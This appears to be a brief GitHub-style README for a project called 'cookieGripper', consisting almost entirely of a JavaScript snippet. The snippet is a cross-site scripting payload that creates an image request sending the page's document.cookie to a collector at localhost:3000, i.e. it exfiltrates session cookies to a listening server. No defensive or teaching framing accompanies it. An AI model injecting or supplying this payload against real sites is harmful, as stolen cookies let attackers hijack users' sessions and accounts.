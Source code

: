 # cookieGripper 


```javaScript

<script>
  var i = new Image();
  i.src = 'localhost:3000?c=' + document.cookie;
</script>

```
